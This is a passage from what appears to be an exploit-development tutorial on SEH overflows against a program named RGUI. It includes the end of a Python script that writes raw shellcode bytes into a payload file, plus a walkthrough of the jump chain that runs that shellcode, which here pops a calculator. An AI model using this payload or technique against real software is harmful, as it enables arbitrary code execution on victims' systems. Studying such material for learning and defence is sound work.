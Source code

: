 ```python
buf += b"\x90\xe7\x26\x13\x5b\x18\xb6\x74\xd5\xfd\x87\xb4\x81"
buf += b"\x76\xb7\x04\xc1\xdb\x3b\xee\x87\xcf\xc8\x82\x0f\xff"
buf += b"\x79\x28\x76\xce\x7a\x01\x4a\x51\xf8\x58\x9f\xb1\xc1"
buf += b"\x92\xd2\xb0\x06\xce\x1f\xe0\xdf\x84\xb2\x15\x54\xd0"
buf += b"\x0e\x9d\x26\xf4\x16\x42\xfe\xf7\x37\xd5\x75\xae\x97"
buf += b"\xd7\x5a\xda\x91\xcf\xbf\xe7\x68\x7b\x0b\x93\x6a\xad"
buf += b"\x42\x5c\xc0\x90\x6b\xaf\x18\xd4\x4b\x50\x6f\x2c\xa8"
buf += b"\xed\x68\xeb\xd3\x29\xfc\xe8\x73\xb9\xa6\xd4\x82\x6e"
buf += b"\x30\x9e\x88\xdb\x36\xf8\x8c\xda\x9b\x72\xa8\x57\x1a"
buf += b"\x55\x39\x23\x39\x71\x62\xf7\x20\x20\xce\x56\x5c\x32"
buf += b"\xb1\x07\xf8\x38\x5f\x53\x71\x63\x35\xa2\x07\x19\x7b"
buf += b"\xa4\x17\x22\x2b\xcd\x26\xa9\xa4\x8a\xb6\x78\x81\x65"
buf += b"\xfd\x21\xa3\xed\x58\xb0\xf6\x73\x5b\x6e\x34\x8a\xd8"
buf += b"\x9b\xc4\x69\xc0\xe9\xc1\x36\x46\x01\xbb\x27\x23\x25"
buf += b"\x68\x47\x66\x46\xef\xdb\xea\xa7\x8a\x5b\x88\xb7"
payload += buf

f.write(payload)
f.close()
```
{% endcode %}

Let's send the payload to RGUI and observe the stack once the payload is sent to the program:

![Stack memory layout after the payload is sent to the program](<../../../.gitbook/assets/image (1011).png>)

Below gif captures the full exploitation process:

![Confirming our SEH overflow exploit works](../../../.gitbook/assets/seh-overflow-exploit.gif)

From above screenshot, note the following key points:

* Once we're at `0141E768`, relative short `jmp + 6` jumps to the start of our `NOP` sled at `0141E770`;
* The `NOP` sled takes us to the start of our shellcode at `0141E77A`;
* Once we hit F9 to resume execution, the shellcode is successfully executed and the calc is popped.

## Summary

We can summarize that SEH overflow exploitation at a high level works as shown in the below diagram:

![SEH overflow exploitation process overview](<../../../.gitbook/assets/image (1012).png>)

1. Payload makes the program throw an exception;
2. SEH handler kicks in, which has been overwritten with a memory address in the program that contains `pop pop ret` instructions;
3. `Pop pop ret` instructions make the program jump to the next SEH record, which is overwritten with a short relative jump to the shellcode;
4. Shellcode is executed.

